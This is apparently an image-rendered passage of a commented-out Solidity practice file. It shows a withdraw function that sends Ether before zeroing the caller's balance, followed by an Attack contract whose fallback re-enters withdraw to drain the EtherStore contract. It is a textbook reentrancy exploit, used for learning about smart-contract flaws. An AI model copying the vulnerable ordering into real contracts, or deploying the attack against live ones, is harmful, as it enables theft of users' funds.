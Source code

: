 ```sol
//         payable(msg.sender).transfer(bal);
//         // (bool sent, ) = msg.sender.call{value: bal}("");
//         // require(sent, "Failed to send Ether");

//         balances[msg.sender] = 0;
//     }

//     // Helper function to check the balance of this contract
//     function getBalance() public view returns (uint) {
//         return address(this).balance;
//     }
// }

// contract Attack {
//     EtherStore public etherStore;
//     uint a = 0;

//     constructor(address _etherStoreAddress) {
//         etherStore = EtherStore(_etherStoreAddress);
//     }

//     // Fallback is called when EtherStore sends Ether to this contract.
//     fallback() external payable {
//         if (address(etherStore).balance >= 1 ether && a <= 2) {
//             etherStore.withdraw();
//         }
//         a++;
        
//     }

//     function d() public payable{

//     }

//     function deposit() public{
//         etherStore.deposit{value: 1 ether}();
//     }

//     function attack() public payable{
//         etherStore.withdraw();
//     }

//     // function attack2() public {
//     //     // require(msg.value >= 1 ether);
//     //     // etherStore.deposit{value: 1 ether}();
//     //     etherStore.withdraw2();
//     // }


//     // // Helper function to check the balance of this contract
//     // function getBalance() public view returns (uint) {
//     //     return address(this).balance;
//     // }
// }

// // contract FundStore{
// //     mapping(address => uint) public funds;

// //     function deposit() public payable{
// //         require(msg.value>0,"ether should be grater than zero");
// //         funds[msg.sender] += msg.value;
// //     }

```
